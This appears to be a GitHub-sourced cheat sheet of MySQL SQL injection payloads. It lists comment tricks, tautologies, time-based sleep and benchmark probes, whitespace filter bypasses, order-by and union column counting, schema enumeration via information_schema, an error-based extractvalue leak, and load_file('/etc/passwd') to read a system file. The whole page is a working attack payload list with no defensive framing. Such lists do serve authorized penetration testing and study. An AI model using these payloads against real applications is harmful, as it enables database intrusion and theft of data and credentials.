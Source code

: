 ## <span style="color:#21C587"></span> SQL Injection<br>
<span style="color:#21C587">&#35;</span><strong> MySQL</strong><br>
```
- comments
#
--
/**/

- like
1=1, 1 in(1), 1 like 1, !(1<>1)

- count func
count()

- version check
@@version
version()
@@innodb_version;

- string split
mid()
right(left())
substr()
substring()

- sleep func
sleep(5), benchmark(40000000,md5(1));

- string to hex
ascii()
ord()

- add string
concat()
group_concat()

- string to hex
'admin' = 0x61646d696e

- whitespace bypass
%0a, %a0, %20, %09, %0d, %0c, %b, /**/, ()

- Conditional
if(1=1, 1, 0), case when 1=1 then 1 else 0 end;

- length func
length(), char_length(), character_length()

- Number of columns
' order by 1 --
' order by 2 --
' order by 3 --
' union null --
' union null, null --
' union null, null, null --

- etc
select load_file('/etc/passwd')
select database_name, table_name from mysql.innodb_table_stats
select table_schema from information_schema.schemas
select table_name from information_schema.tables
select column_name from information_schema.columns
select extractvalue(rand(),concat(0x3a,((select <column_name> from <table_name> limit 0, 1))))
```